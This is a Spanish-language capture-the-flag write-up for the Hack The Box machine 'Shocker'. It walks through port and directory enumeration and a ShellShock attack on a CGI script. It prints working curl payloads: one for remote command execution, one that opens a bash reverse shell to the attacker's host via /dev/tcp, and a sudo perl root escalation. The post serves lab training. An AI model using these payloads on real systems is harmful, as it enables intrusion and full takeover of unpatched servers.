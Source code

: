 ```yaml
---
layout: single
title: Hack the box-Shocker 
excerpt: "Maquina Shocker hack the box"
date: 2021-08-26
classes: wide
header:
  teaser: /assets/images/shocker/shocker.jpg
  teaser_home_page: true
categories:
  -HTB -CTF
tags:  
  - HTB
  - enumeration
  - explotacion
---
```


Esta es una resolucion completa de la maquina shocker de hack the box una maquina linux de 64 bits.
### Nivel de dificultad:

Intrusion = facil.

Escala de privilegios = facil. 
## Reconocimiento general de la maquina 
### Reconocimiento de puertos
Realizamos el escaneo con nmap 
```
nmap -p- --open -n -T5 -v 10.10.10.56
```
### Salida de nmap: 
<p align="left">
<img src="/assets/images/shocker/salida-shocker.png">
</p>

## Vemos que tiene un servidor http por el puerto 80 al entrar a esa pagina web vemos la suigente imagen:
<p align="left">
<img src="/assets/images/shocker/web-shocker.png">
</p>

### El codigo fuente muestra esto:
<p align="left">
<img src="/assets/images/shocker/codigofuente-shocker.png">
</p>
### Wappalyzer:
<p align="left">
<img src="/assets/images/shocker/wapalyzer.png">
</p>
### Uso de wfuzz en busca de rutas potenciales:
```
wfuzz -c -w /usr/share/dirb/wordlists/common.txt http://10.10.10.56/FUZZ
```
Ocupe el diccionario /usr/share/dirb/wordlists/common.txt de dirbuster pero otros diccionarios pueden dar los mismos resultados
### Salida de wfuzz:
<p align="left">
<img src="/assets/images/shocker/wfuzz.png">
</p>
Podemos ver un directorio cgi-bin/

### cgi-bin/
Esta carpeta se usa principalmente para guardar archivos con la extension cgi pero no es una obligacion que tengan esta extension para ser guardados aqui
### Archivos .cgi 
Estos archivos son utilizados principalmente para realizar tareas que no son soportadas por el estandar html 

Ej:

Base de datos

Contadores 

### Uso de wfuzz para encontrar archivos con diferentes extensiones:
Creamos un diccionario con extensiones variadas para luego usarlo

extensiones.txt
```
html 
php
pl
cgi 
txt
sh 
```
Uso de wfuzz con dos diccionarios 
```
wfuzz -c --hc=440 -t 500 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -w extensiones.txt http://10.10.10.56/cgi-bin/FUZZ.FUZ2Z
```
Encontramos un archivo user-sh
<p align="left">
<img src="/assets/images/shocker/user-sh.png">
</p>
Entramos al recurso /cgi-bin/user.sh
<p align="left">
<img src="/assets/images/shocker/recurso.png">
</p>

## Intrusion a la maquina 
Para ganar acceso a la maquina realizaremos un ataque ShellShock 
en esta mapa en especifico habra que probar hacer un aislamiento de comandos con echo;
### Ganamos ejecucion remota de comandos
```
curl -H "User-Agent: () { :; }; echo; echo; /usr/bin/whoami" http://10.10.10.56/cgi-bin/user.sh
```
### Ganamos una shell 
Nos ponemos en escucha con netcat 
```
nc -nlvp 443
```
Ahora ganamos la shell
```
curl -H "User-Agent: () { :; }; echo; /bin/bash -c 'bash -l >& /dev/tcp/(nuestra ip)/443 0>&1" http://10.10.10.56/cgi-bin/user.sh
```
Hacemos un tratamiento de la TTY (Tengo un articulo explicando como hacer un tratamiento de la  TTY)

Realizado el tratamiento de la  TTY tendriamos acceso a la maquina con el usuario shelly y tendriamos acceso a la flag del usuario.
## Escala de privilegios 
Con el comando 
```
sudo -l
```
podemos ver que el usuario root permite ejecutar el comando perl sin necesidad de contraseña
esta pagina nos muestra algunos comandos para escalar privilegios segun los comandos que se nos permita ejecutar
https://gtfobins.github.io/

Podemos ver que podemos ejecutar un comando perl para poder escalar privilegios
```
sudo perl -e 'exec "/bin/sh";'
```
Ahora ya tendriamos acceso a root y a su flag.
